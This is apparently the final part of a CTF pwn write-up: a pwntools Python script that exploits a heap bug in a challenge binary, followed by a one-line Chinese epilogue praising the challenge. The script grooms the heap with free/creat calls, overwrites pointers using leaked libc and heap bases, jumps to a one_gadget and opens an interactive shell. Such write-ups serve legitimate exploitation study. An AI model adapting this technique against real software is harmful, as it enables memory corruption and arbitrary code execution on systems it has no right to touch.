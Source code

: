 ```python
free(16)
creat(p64(0xdeadbeef11),1)
creat("Y"*0x38+"\x01",1)
free(17)
creat("z"*0x8,1)

free(19)
creat(p64(0x7ffff7dd1af0-0x7ffff7a0d000+base),1)


creat("A"*0x28+p64(heap+0x650),0)
free(-1)

free(18)
creat("x"*0x30+p64(0x7ffff7dd1b20-0x7ffff7a0d000+base)[:-2],1)

free(30)

creat("A"*8+'\x31',0x130)
one=0x4526a+base
creat("YYYYYYup"*2+p64(one),1)


log.warning(hex(heap))
log.warning(hex(base))
#gdb.attach(p,'b *{}'.format(hex(one)))

add("z"*8+p64(0),1)#rsp+0x30=0
p.interactive()
```
# epilogue
挺有意义的一题,拓宽了漏洞利用的思路.
